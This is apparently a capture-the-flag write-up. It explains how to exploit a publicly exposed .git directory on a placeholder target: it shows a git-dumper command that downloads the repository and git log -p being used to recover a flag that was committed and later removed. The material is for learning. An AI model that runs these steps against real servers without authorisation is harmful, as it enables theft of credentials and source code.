## Step 1: Exploring the .git Directory

The `.git` directory is accessible due to a misconfiguration that allows directory listing. An attacker can browse to `http://target.com:8080/.git/` to view the git history.

### Tools and Commands:
- **git-dumper** or manual browsing: Tools like `git-dumper` can be used to download the entire `.git` repository locally for further exploration.
  ```bash
  git-dumper http://target.com:8080/.git/ local_directory
  ```
- **Examine the history**: Use `git log` and `git diff` to review changes, especially look into commits that might contain credentials or sensitive changes.

## Step 2: Extracting Credentials

Upon examining the git commit history, file containing flag can be found in the logs where it was added and then removed in subsequent commits.

### Commands:
- **Finding commits with credentials**:
  ```bash
  git log -p
  ```
- This might show something like:
  ```plaintext
  commit 1234abc
  +CZ4067{s3cr3t_l0gs_4r3_us3ful}
  ```
